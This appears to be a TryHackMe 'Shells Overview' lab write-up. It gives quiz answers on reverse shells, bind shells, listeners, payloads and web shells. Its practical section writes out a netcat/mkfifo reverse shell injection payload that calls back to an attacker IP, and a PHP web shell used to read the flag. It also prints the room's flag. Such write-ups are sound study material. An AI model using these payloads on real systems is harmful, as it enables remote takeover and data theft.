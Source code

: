 ![image](https://github.com/user-attachments/assets/6c557937-247c-4c7f-906e-433d9424249e)# Shells Overview

### Shell Overview
- What is the command-line interface that allows users to interact with an operating system? `Shell`
- What process involves using a compromised system as a launching pad to attack other machines in the network? `Pivoting`
- What is a common activity attackers perform after obtaining shell access to escalate their privileges? `Privilege Escalation`

### Reverse Shell
- What type of shell allows an attacker to execute commands remotely after the target connects back? `Reverse Shell`
- What tool is commonly used to set up a listener for a reverse shell? `Netcat`

### Bind Shell
- What type of shell opens a specific port on the target for incoming connections from the attacker? `Bind Shell`
- Listening below which port number requires root access or privileged permissions? `1024`

### Shell Listeners
- Which flexible networking tool allows you to create a socket connection between two data sources? `socat`
- Which command-line utility provides readline-style editing and command history for programs that lack it, enhancing the interaction with a shell listener? `rlwrap`
- What is the improved version of Netcat distributed with the Nmap project that offers additional features like SSL support for listening to encrypted shells? `ncat`

### Shell Payloads

- Which Python module is commonly used for managing shell commands and establishing reverse shell connections in security assessments? `subprocess`
- What shell payload method in a common scripting language uses the exec, shell_exec, system, passthru, and popen functions to execute commands remotely through a TCP connection? `PHP`
- Which scripting language can use a reverse shell by exporting environment variables and creating a socket connection? `Python`


### Web Shell
- What vulnerability type allows attackers to upload a malicious script by failing to restrict file types? `Unrestricted File Upload`
- What is a malicious script uploaded to a vulnerable web application to gain unauthorized access? `Web Shell`

### Practical Task
- Using a reverse or bind shell, exploit the command injection vulnerability to get a shell. What is the content of the flag saved in the / directory?<br />
Open a netcat listener on the attackbox, then the payload is `; rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.14.90.188 4444 >/tmp/f`:<br />
![image](https://github.com/user-attachments/assets/ce3d3673-f44a-4b85-88c2-96cfc428076a)<br />


- Using a web shell, exploit the unrestricted file upload vulnerability and get a shell. What is the content of the flag saved in the / directory?<br />
Create a php file containing the following, and upload it:

      <?php
      if (isset($_GET['cmd'])) {
          system($_GET['cmd']);
      }
      ?>

Then run `http://10.10.135.35:8082/uploads/webshell.php?cmd=cat%20%2Fflag.txt`:<br />
![image](https://github.com/user-attachments/assets/16ee7be4-25f4-4b2d-af8f-cf89681f3479)<br />
`THM{202bb14ed12120b31300cfbbbdd35998786b44e5}`
